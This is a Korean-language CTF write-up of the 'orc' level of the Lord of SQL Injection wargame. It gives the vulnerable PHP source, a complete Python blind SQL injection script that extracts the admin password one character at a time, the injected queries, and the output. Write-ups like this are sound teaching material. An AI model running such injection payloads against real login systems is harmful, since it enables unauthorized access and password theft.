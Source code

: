 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - orc 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


하루에 한 문제씩 `los` 문제를 풀어보는 중이다.  

다음 문제의 이름은 `orc`이다.  

<!--more-->

코드는 다음과 같다.  

```php
-----------------------------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw=''
-----------------------------------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

이번 문제에는 문제를 풀기 위해 아래의 조건문을 통과해야 한다.  

```php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc");
```

입력 한 `pw`의 값과 데이터베이스에 저장되어 있는 `pw`의 값이 같아야 한다.  

즉, 정확한 `pw`의 값을 입력해야 문제를 풀 수 있다.  

이 문제는 `Blind SQL Injection`으로 해결했다.  

`Blind SQL Injection`은 쿼리 결과 에 따른 서버의 참과 거짓 반응을 통해 공격을 수행한다.  

이에 대해 이 전 블로그에 적어둔게 있는데, 지금은 옮기기 귀찮아서 나중에 시간이 될 때 옮겨오려 한다.  

문제를 풀기 위해 구현한 `exploit` 코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find length of the password"

for i in range(0, 20):
	try:
		query = url + "1' or id='admin' and length(pw)=" + str(i) + "%23"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		length = i
		break

print "[+] Found length : ", length

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 128):
		try:
			query = url + "1' or id='admin' and substr(pw, " + str(j) + ", 1)='" + chr(i)
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if 'Hello admin' in r.text:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

먼저 `pw`의 길이를 알아내기 위해, `length()` 함수를 사용했다.  

이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and length(pw)=0#'
```

만약 pw의 길이가 `str(i)`의 값과 같을 경우 데이터베이스에서는 `id='admin' and length(pw)=0`의 두 조건이 모두 참이므로 `admin`의 행이 추출되어 `Hello admin`이 출력될 것이다.  

길이를 찾은 다음에는 해당 길이만큼 반복문을 수행 해 `pw`를 한 글자 씩 찾았다.  

`substr()`을 사용했는데, 이 경우 완성되는 쿼리는 다음과 같다.  

```
select id from prob_orc where id='admin' and pw='1' or id='admin' and substr(pw, 0, 1)='0'
```

이 때도 만약 pw의 `str(j)`번 째 문자가 `chr(i)`의 값과 같을 경우 `id='admin' and substr(pw, 0, 1)='0'`의 모든 조건이 참이 되어 `admin`의 행이 추출된다.  

따라서 `Hello admin`이 출력된다.  

이 exploit 코드를 실행시킨 결과 다음과 같이 pw를 찾을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find length of the password
[+] Found length :  8
[+] Find password
[+] Found 1 : 0
[+] Found 2 : 09
[+] Found 3 : 095
[+] Found 4 : 095A
[+] Found 5 : 095A9
[+] Found 6 : 095A98
[+] Found 7 : 095A985
[+] Found 8 : 095A9852
[+] Found password :  095A9852
[+] End
```

그런데, `095A9852`를 입력해도 `Hello admin`은 출력되지만 문제는 풀리지 않았다.  

생각해보니 `MySQL`에서는 대소문자를 구분하지 않아 만약 `a`와 `A`를 비교해도 참을 반환한다는 것이 생각났다.  

그래서 대문자를 소문자로 바꾸어 다시 인증했더니 문제가 풀렸다.  

```php-------
------------------------------------------------------------------------------------------------
query : select id from prob_orc where id='admin' and pw='095a9852'
------------------------------------------------------------------------------------------------

Hello admin
ORC Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

`ORC Clear!!`
